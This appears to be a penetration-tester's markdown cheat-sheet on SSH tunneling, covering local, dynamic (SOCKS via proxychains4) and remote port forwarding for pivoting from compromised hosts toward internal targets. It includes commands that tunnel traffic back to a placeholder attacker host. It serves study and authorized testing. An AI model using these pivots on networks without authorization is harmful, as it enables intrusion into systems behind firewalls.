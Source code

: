 # SSH Tunneling

## Local Port Forward

Local SSH tunnel from `$OWNED_IP1` to some `EXTERNAL_IP` (run this from `${OWNED_IP0}`).
```
ssh -N -L 0.0.0.0:${OWNED_PORT0}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${USER}@${OWNED_IP1}
```
This will allow traffic to go `${ATTACKER_IP} <--> ${OWNED_IP}:${OWNED_PORT} <--> ${EXTERNAL_IP}:${EXTERNAL_PORT}` 

## Dynamic Port Forward

If we want to be able to port-scan or otherwise interact with multiple ports of targets not directly reachable from our network,
we can use `proxychains4` with OpenSSH's dynamic port forward option.

With the following, OpenSSH opens a SOCKS proxy server:

```
ssh -N -D 0.0.0.0:${OWNED_PORT0} ${USER}@${OWNED_IP1}
```

To make sure packages are sent in a compatible manner, we use `proxychains4`.
the default config is found in `/etc/proxychains4.conf`, but we can also specify a config file with `-f $pathToConfig`.

a config could be to add to a `proxychains4.conf`:

```
socks4 	${OWNED_IP0} ${OWNED_PORT0} 
```

Now, we can do eg. a call with smbclient like so:

```
proxychains4 -f proxychains4.conf smbclient ...
```
The trick is to use whatever tool you are calling with the same parameters you would otherwise with regards to IPs and ports, and just let proxychains handle the proxying.

## Remote Port Forwarding

(pre-req): This requires that we've setup an SSH server on our kali machine with:
```
sudo systemctl start ssh
```

If the firewall setup doesn't allow us to SSH from `${OWNED_IP}`, which we have compromised, it can make sense to remote port forward back to our `${ATTACKER_IP}` with (run from `${OWNED_IP0}`):
```
ssh -N -R 127.0.0.1:${OWNED_PORT0}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${ATTACKER_USER}@${ATTACKER_IP}
```
Now, we can interact with `${EXTERNAL_IP}:${EXTERNAL_PORT}` via `127.0.0.1:${OWNED_PORT0}`.
